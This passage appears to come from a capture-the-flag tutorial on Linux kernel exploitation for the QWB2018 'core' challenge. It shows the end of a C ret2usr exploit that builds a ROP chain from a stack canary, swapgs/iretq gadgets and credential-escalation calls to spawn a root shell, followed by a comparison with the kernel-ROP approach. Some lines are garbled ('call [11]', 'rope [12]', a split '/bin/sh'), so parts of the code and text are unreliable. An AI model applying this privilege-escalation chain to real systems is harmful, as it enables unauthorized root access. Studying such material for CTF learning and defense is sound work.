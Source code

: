 ```C

	rop[8] = canary ; 

	rop[10] = (size_t)get_root;

call [11] = 0xffffffff81a012da + offset; // swapgs; popfq; right
rope [12] = 0;
call [13] = 0xffffffff81050ac2 + offset; // iretq; right;
	rop[14] = (size_t)get_shell; 

	rop[15] = user_cs;

	rop[16] = user_rflags;

	rop[17] = user_sp;

	rop[18] = user_ss;



	puts("[*] DEBUG: ");

	getchar();

	write(fd, rop, 0x30 * 8);

	core_copy_func(fd, 0xffffffffffff0000 | (0x100));

}

```

Compare the similarities and differences between [kernel rop] (https://github.com/bash-c/pwn_repo/blob/master/QWB2018_core/rop.c).


1. Get `commit_creds` and `prepare_kernel_cred` by reading `/tmp/kallsyms`, and determine the address of the gadget based on these offsets.
2. The method of leak canary is the same, and the canary is read by controlling the global variable `off`.
3. Unlike the kernel rop approach, the construction of the rop chain
1. The kernel rop reaches the execution of `commit_creds(prepare_kernel_cred(0))` by the rop chain of the kernel space, and then returns to the user mode through `swapgs; iretq`, etc., and executes the `system(&quot;/bin/ of the user space. Sh&quot;)` Get the shell
2. In the ret2usr approach, return directly to the user space constructor&#39;s `commit_creds(prepare_kernel_cred(0))` (implemented by function pointer) to raise the weight. Although these two functions are in kernel space, we are `ring 0` at this time. Privileges, so it works fine. Then also pass `swapgs; iretq` back to the user mode to execute the user space `system(&quot;/bin/sh&quot;)`


A comparison of these two approaches can be seen as the reason for `ret2usr` because it is generally much simpler to construct a specific purpose code in user space than in kernel space.



